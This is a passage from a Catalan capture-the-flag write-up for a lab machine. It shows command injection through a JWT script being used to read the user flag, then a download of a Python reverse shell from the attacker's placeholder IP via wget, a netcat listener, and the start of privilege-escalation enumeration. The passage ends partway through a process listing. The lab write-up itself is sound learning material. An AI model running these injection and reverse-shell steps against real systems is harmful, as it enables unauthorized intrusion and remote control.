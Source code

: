 Mirant al /home del usuari dasith, trobarem el flag del usuari:
  
`python jwt_request.py 'cat /home/dasith/user.txt'`
 

### Post Explotation ###
 
Després de una estona trastejant amb `jwt_request.py`, m'acabo decantant per crear una reverse shell sencilleta escrita en python (`rcli.py`), ja que la victima ja té el python instal·lat.


Montem un servidor HTTP per compartir el fitxer:  
`python3 -m http.server --bind LA_NOSTRA_IP_DE_LA_VPN 8080`


Ens descarreguem la reverse desde la victima:  
`python3 jwt_request.py 'wget http://LA_NOSTRA_IP_DE_LA_VPN:8080/rcli.py `


Ens posem en escolta desde la nostra màquina atacant:  
`nc -lvnp 1234`


Executem la reverse shell desde la victima:  
`python3 jwt_request.py 'python3 rcli.py'`  
 
I voilà! Ja tenim una reverse shell amb l'usuari dasith. Ara tocarà fer la escalada de privilegis. 





### Escalant privilegis ###

Primerament mirem a que ens enfrentem:  
`uname -a`

```Linux secret 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux```


Enumerem processos actius, aviam si ens podem aprofitar d'algun:

`ps -aux | grep 'root'`

```
root           1  0.0  0.2 104112 11460 ?        Ss   19:07   0:02 /sbin/init maybe-ubiquity
root           2  0.0  0.0      0     0 ?        S    19:07   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   19:07   0:00 [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   19:07   0:00 [rcu_par_gp]
root           6  0.0  0.0      0     0 ?        I<   19:07   0:00 [kworker/0:0H-kblockd]
root           9  0.0  0.0      0     0 ?        I<   19:07   0:00 [mm_percpu_wq]
root          10  0.0  0.0      0     0 ?        S    19:07   0:00 [ksoftirqd/0]
root          11  0.0  0.0      0     0 ?        I    19:07   0:03 [rcu_sched]
root          12  0.0  0.0      0     0 ?        S    19:07   0:00 [migration/0]
root          13  0.0  0.0      0     0 ?        S    19:07   0:00 [idle_inject/0]
root          14  0.0  0.0      0     0 ?        S    19:07   0:00 [cpuhp/0]
root          15  0.0  0.0      0     0 ?        S    19:07   0:00 [kdevtmpfs]
root          16  0.0  0.0      0     0 ?        I<   19:07   0:00 [netns]
root          17  0.0  0.0      0     0 ?        S    19:07   0:00 [rcu_tasks_kthre]
root          18  0.0  0.0      0     0 ?        S    19:07   0:00 [kauditd]
root          19  0.0  0.0      0     0 ?        S    19:07   0:00 [khungtaskd]
root          20  0.0  0.0      0     0 ?        S    19:07   0:00 [oom_reaper]
root          21  0.0  0.0      0     0 ?        I<   19:07   0:00 [writeback]
root          22  0.0  0.0      0     0 ?        S    19:07   0:00 [kcompactd0]
root          23  0.0  0.0      0     0 ?        SN   19:07   0:00 [ksmd]
root          24  0.0  0.0      0     0 ?        SN   19:07   0:00 [khugepaged]
root          70  0.0  0.0      0     0 ?        I<   19:07   0:00 [kintegrityd]
root          71  0.0  0.0      0     0 ?        I<   19:07   0:00 [kblockd]
root          72  0.0  0.0      0     0 ?        I<   19:07   0:00 [blkcg_punt_bio]
root          73  0.0  0.0      0     0 ?        I<   19:07   0:00 [tpm_dev_wq]
root          74  0.0  0.0      0     0 ?        I<   19:07   0:00 [ata_sff]
root          75  0.0  0.0      0     0 ?        I<   19:07   0:00 [md]
